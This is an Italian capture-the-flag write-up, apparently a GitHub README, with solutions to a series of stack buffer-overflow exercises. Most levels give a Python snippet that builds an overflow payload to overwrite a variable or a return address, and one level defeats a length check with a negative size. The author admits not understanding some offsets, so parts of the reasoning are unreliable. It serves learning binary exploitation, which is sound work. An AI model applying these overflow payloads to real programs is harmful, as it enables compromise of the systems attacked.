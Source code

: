 # Qui inseriro le spiegazioni degli esercizi di memory error di pwn

## Spiegazione generale

+ Gli esercizi seguenti richiedono di rompere la memoria in 8 livelli di difficoltà, andando a richiedere sempre quanti byte inviare e poi cosa effettivamente inviare.  
I livelli complessivamente sono 16, suddivisi nella versione .0 e nella versione .1, che si differenziano per essere le versioni .1 senza alcuna spiegazione di cosa tu debba fare, sebbene poi siano uguali alla versione .0.  
I primi livelli sono molto semplici da risolvere, tanto da poterli risolvere scrivendo a mano, ma poi verranno richiesti input particolari per cui sarà necessario passare particolari byte e approntare un sistema già pronto di python.  
Nello specifico sarà necessario creare un file binario in cui scrirevere più componenti a seconda di ciò che richiede la challenge:

    ```py
    with open("input.bin", "wb") as f:
        f.write(b'68')
        f.write(b'\x90'*68)     #don't know why ma metterne sempre uno in più dl richiesto qua, è qualcosa legato alla scrittura di python
    ```

    Ciò che fa è aprire/creare un file .bin e scriverci dentro i byte passati. Quando scrivo "f.write(b'\x90'*68)" intendo scrivere 68 volte il byte 90 (\x serve per indicare il valore in byte).

## Esercizio 1

+ Il primo esercizio è molto semplice e richiede di andare a sovrascrivere il valore 00 della variabile win con qualunque valore. La challenge mette a disposizione un buffer di 61 byte e posiziona win 64 byte dopo l'inizio del buffer.  
Basta inserire un valore di offset maggiore o uguale della distanza tra l'inizio del buffer e la posizione della variabile win e poi inserire una sequenza di caratteri a caso. Anche se triggheriamo la guardia del canarino la challenge sarà risolta uguale.

    ```py
    with open("input.bin", "wb") as f:
        f.write(b'68')
        f.write(b'\x90'*68)
    ```

## Esercizio 1.1

+ Il procedimento è lo stesso dell'esercizio 1 normale, semplicemente non vengono date istruzioni

    ```py
    with open("input.bin", "wb") as f:
        f.write(b'68')
        f.write(b'\x90'*68)
    ```

## Esercizio 2.0

+ In questa challenge viene testato lo stack. Come la challenge 1.0 è richiesto di passare un numero di byte e poi i byte effettivi per modificare il valore della win variabile, senza preoccuparsi troppo dello smashing effettivo della memoria.

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'577')
    f.write(b'\x90'*578)
    ```

## Esercizio 2.1

+ Idem come sopra, ma sta volta senza minimi indizzi. Con lo stesso input di sopra funziona.

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'577')
    f.write(b'\x90'*578)
    ```

## Esercizio 3.0

+ Questo esercizio richiede di modificare il return address cosicchè possa essere attivata la funzione win() che stampa la flag. Per farlo è necessario sapere a che inidirizzo parte la challenge, quindi bisogna usare objdump per cercarlo, facendo ```sh objdump -d come_cazzo_si_chiama```.  
Una volta trovata la posizione bisogna capire dove si trova nello stack il return address. Questa challenge non posiziona particolari protezioni (tipo il canary boundary), quindi si può andare per tentativi

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'98')
    f.write(b'\x90'*89)
    f.write(b'\x49\x22\x40')
    ```

## Esercizio 3.1

+ Esercizio al buio. Il primo passo è trovare il return address corretto, quindi con objdump cerco il numero della prima istruzione della funzione win ```sh objdump -d come_cazzo_si_chiama```.  
Poi devo capire dove si trova il return address nello stack, e lo faccio cercando la segmentation fault, che tendenzialmente è un multiplo di 8. Quindi provo diverse quantità di input fino a trovare il primo valore che dà segmentation fault.  
Questo ci permette di capire che il return address sarà 8 byte dopo il primo segmentation fault. Ad esempio qui segmentation fault scatta a 16 byte dal fondo dello stack, e dunque  return address è a 8 byte dal fondo.

    ```s
    | 0x00007fff0a427b00 (rsp+0x0070) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
    | 0x00007fff0a427b08 (rsp+0x0078) | c0 7a 42 0a ff 7f 00 00 | 0x00007fff0a427ac0 |
    | 0x00007fff0a427b10 (rsp+0x0080) | 40 8b 42 0a ff 7f 00 00 | 0x00007fff0a428b40 |
    | 0x00007fff0a427b18 (rsp+0x0088) | 8a 29 40 00 00 00 00 00 | 0x000000000040298a |
    +---------------------------------+-------------------------+--------------------+
    ```

    qui ad esempio il return address è posizionato a 0x00007fff0a427b18 (quindi inizia con 8a) mentre il segmentation fault scatta quando viene sovrascritto all'inidirizzo 0x00007fff0a427b10 (quello che inizia con 40)

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'180')
    f.write(b'\x90'*97)     #metterne sempre uno in più
    f.write(b'\x90'*8)
    f.write(b'\x24\x15\x40')
    #97 da segmentation, quindi 96+8+return
    ```

## Esercizio 4.0

+ Esercizio simile al 3.0, ma che richiede di rompere il controllo sulla lunghezza dell'input, che controllerà se è maggiore della grandezza del buffer generando errore, semplicemnte mettendo -1 o un valore minore di 0 come grandezza. Poi come sopra lavoro con obj per trovare l'inidirizzo con cui sovrascrivere

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'-1')
    f.write(b'\x90'*113)     #metterne sempre uno in più
    f.write(b'\x90'*8)
    f.write(b'\x4e\x1d\x40')
    ```

## Esercizio 4.1

+ Esattamente un mix tra 4.0 e 3.1, devo mettere il primo valore a -1, lavorare con objdump per trovare l'indirizzo e con il segmentation fault per trovare il giusto offset

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'-1')
    f.write(b'\x56'*65)     #metterne sempre uno in più
    f.write(b'\x90'*8)
    f.write(b'\xc8\x1c\x40')
    ```

## Livello 6.0

+ Al livello 6 il segmentation scatta con 7 byte rimasti, quindi non al primo della riga ma al secondo byte della riga

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'100')
    f.write(b'\x56'*81)     #metterne sempre uno in più
    f.write(b'\x90'*8)
    f.write(b'\xe0\x1e\x40')
    ```

## Livello 6.1

+ Livello al buio

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'100')
    f.write(b'\x56'*65)     #metterne sempre uno in più
    f.write(b'\x90'*8)
    f.write(b'\xba\x14\x40')
    ```
